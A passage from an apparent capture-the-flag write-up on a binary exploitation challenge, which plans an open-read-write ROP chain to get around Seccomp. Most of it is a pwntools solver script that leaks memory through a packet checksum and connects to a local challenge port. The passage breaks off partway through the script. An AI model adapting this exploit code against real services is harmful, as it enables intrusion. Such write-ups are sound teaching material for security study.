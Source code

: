 ```python
   0x7f718382a747 <__GI___gconv_open+503>:      ret    
```

After it, we can do anything. We can solve with any ROP payload right now. There is a Seccomp mitigation against getting a shell, but it is not that big of a problem. Do ORW ROP.

## Solver.py

```py
from pwn import *
choice = lambda x: p.sendlineafter(b"> ", str(x).encode())
def addProtocol(name):
    choice(1)
    p.sendafter(b"> ", name)

def addPacket(size, index, packet):
    choice(2)
    choice(size)
    choice(index)
    p.sendafter(b"> ", packet)

def delPacket(index):
    choice(3)
    choice(index)

def calcChecksum():
    p.recvuntil(b": ")
    checksum = ((~int(p.recvline(), 16) + 1) & 0xFFFFFFFF)
    s = u32(b'DNS:') + sz
    for i in range(0, len(pl), 4):
        s += u32(pl[i:i+4].ljust(4, b'\x00'))
        if s > 0x100000000:
            s -= 0xFFFFFFFF

    result = checksum - s
    if result < 0:
        result += 0x100000000 - 1

    return result

def leak_8(offset=4):
    global sz, pl
    addPacket(sz, 2, pl)
    low = calcChecksum()
    if low == 0:
        return -1
    delPacket(0)

    sz += offset
    pl += b'\x01'* offset
    addPacket(sz, 2, pl)
    high = calcChecksum()
    delPacket(0)
    
    val = (high << 32) + low
    return val

context(arch='amd64')
# context.log_level = 'debug'

while True:
    if args.REMOTE:
        p = remote('localhost', 32769)
```
